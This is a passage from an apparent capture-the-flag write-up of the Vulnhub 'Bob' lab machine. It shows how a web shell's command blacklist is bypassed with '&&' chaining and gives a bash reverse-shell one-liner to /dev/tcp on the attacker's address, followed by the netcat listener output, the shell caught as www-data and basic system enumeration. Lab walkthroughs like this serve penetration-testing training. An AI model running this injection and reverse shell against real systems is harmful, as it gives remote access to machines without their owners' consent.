 ```bash

```
So they have a black list of commands, but we already discovered the bypass with the `command1 && command2` to run a second command.
Now to make life easier we should start a netcat listener.

```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```
Then we could launch a reverse shell as second command like this.
```
id && bash -c 'exec bash -i &>/dev/tcp/10.0.2.15/1234 <&1'
```
![Image](/assets/img/WriteUp/Vulnhub/Bob/Pasted image 20230228110045.png){: width="700" height="400" }

As soon as we hit the `Submit` button we should check our netcat listener.

## Initial access
Now let's see if the connection is established.
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.2.21.
Ncat: Connection from 10.0.2.21:42094.
bash: cannot set terminal process group (514): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Milburg-High:/var/www/html$ 

```
Now we should do some basic local enumeration. First I wqould like to know who we are, what machine we are working on.
```bash
www-data@Milburg-High:/var/www/html$ whoami && id && hostname
whoami && id && hostname
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
Milburg-High
```
This confirms our earlier commands executed from the web shell. 
We should enumerate some information about the Linux distro and kernel.
```bash
www-data@Milburg-High:/var/www/html$ uname -a
uname -a
Linux Milburg-High 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64 GNU/Linux
www-data@Milburg-High:/var/www/html$ uname -mrs
uname -mrs
Linux 4.9.0-4-amd64 x86_64
www-data@Milburg-High:/var/www/html$ cat /etc/issue
cat /etc/issue
Debian GNU/Linux 9 \n \l
```
It looks like we are running on:
- Debian 9
- Linux 4.9.0-4-amd64 x86_64
